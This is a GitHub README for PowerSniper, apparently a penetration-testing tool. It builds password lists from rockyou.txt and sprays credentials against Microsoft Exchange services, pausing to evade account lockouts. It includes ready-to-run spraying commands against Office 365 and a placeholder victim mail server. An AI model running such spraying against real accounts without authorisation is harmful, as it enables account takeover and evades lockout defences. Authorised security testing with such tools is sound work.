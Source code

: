 # PowerSniper
Password spraying script and helper for creating password lists.

The Python script uses configurable parameters to extract complex passwords from a password list such as rockyou.txt.  It then analyzes the Damerau-Levenshtein distance between that password and a list of common passwords (the text file in this repository is the top 20 most common rockyou passwords that could be easily modified to be a complex password, i.e. not the one's that are all digits).  The script is configurable for the maximum distance to keep a password, with a default of 4, and will output results to a CSV file.

The PowerShell script loops through usernames and passwords and attempts to authenticate with them against various Microsoft Exchange web-based services.  The script supports pausing after a specified lockout count for a specified period of time to prevent account lockouts.

Requirements
============
passdist.py requires jellyfish

Usage
=====
<pre>
usage: rockdist.py [-h] --wordlist WORDLIST --toplist TOPLIST [--output OUTPUT] [--passmin PASSMIN] 
                        [--passmax PASSMAX] [--complex] [--passdist PASSDIST]
                        
  Get the distances between complex passwords and top passwords used

  optional arguments:  
    -h, --help           show this help message and exit  
    --wordlist WORDLIST  the file with the complex rockyou passwords (default: None)  
    --toplist TOPLIST    the file with the top rockyou passwords (default: None)  
    --output OUTPUT      the CSV output of the analysis (default: analysis.csv)  
    --passmin PASSMIN    the minimum size password to choose from (default: 7)  
    --passmax PASSMAX    the maximum size password to choose from (default: 12)  
    --complex            require complex passwords (default: 0)  
    --passdist PASSDIST  the maximum distance between passwords to keep (default: 4)
</pre>

Example passdist.py command:
<pre>
    python passdist.py --wordlist rockyou.txt --toplist toplist_rockyou.txt --output lowdist.csv --passmin 7 
        --passmax 12 --complex --passdist 4
</pre>

<pre>
NAME    
  Invoke-PowerSniper
  
SYNOPSIS    
  This module loops through usernames and passwords and attempts to authenticate with them against various 
  Microsoft Exchange web-based services.
  
    PowerSniper Function: Invoke-PowerSniper    
    Author: Josh Berry (@codewatchorg)    
    License: BSD 3-Clause    
    Required Dependencies: None    
    Optional Dependencies: None

SYNTAX    
  Invoke-PowerSniper [[-uri] &lt;Object&gt;] [[-svc] &lt;Object&gt;] [[-userlist] &lt;Object&gt;] 
      [[-passlist] &lt;Object&gt;] [[-sos] &lt;Object&gt;] [[-lockout] &lt;Object&gt;] 
      [[-locktime] &lt;Object&gt;] [&lt;CommonParameters&gt;]

DESCRIPTION    
  This module loops through usernames and passwords and attempts to authenticate with them against 
  various Microsoft Exchange web-based services.  The script supports pausing after a specified 
  lockout count for a specified period of time to prevent account lockouts.

RELATED LINKS    
  https://blogs.technet.microsoft.com/meamcs/2015/03/06/powershell-script-to-simulate-outlook-web-access-url-user-logon/
  http://mobilitydojo.net/2010/03/30/rolling-your-own-exchange-activesync-client/
  http://mobilitydojo.net/2011/08/24/exchange-activesync-building-blocks-first-sync/
  http://mobilitydojo.net/files/EAS_BB/Part_02/HTTP_GET.cs
  https://blogs.technet.microsoft.com/heyscriptingguy/2011/12/02/learn-to-use-the-exchange-web-services-with-powershell/
  http://stackoverflow.com/questions/1582285/how-to-remove-elements-from-a-generic-list-while-iterating-over-it
  https://github.com/dafthack/MailSniper
</pre>

Example PowerSniper.ps1 usage:
<pre>
    # Outlook Anywhere Test
    Invoke-PowerSniper -uri https://outlook.office365.com -svc oa -userlist users.txt -passlist passwords.txt 
        -sos false -lockout 6 -locktime 30
    
    # ActiveSync Test
    Invoke-PowerSniper -uri https://outlook.office365.com -svc as -userlist users.txt -passlist passwords.txt 
        -sos false -lockout 6 -locktime 30
    
    # Outlook Web Access Test
    Invoke-PowerSniper -uri https://mail.victim.com/owa/auth.owa -svc owa -userlist users.txt 
        -passlist passwords.txt -sos false -lockout 6 -locktime 30
</pre>
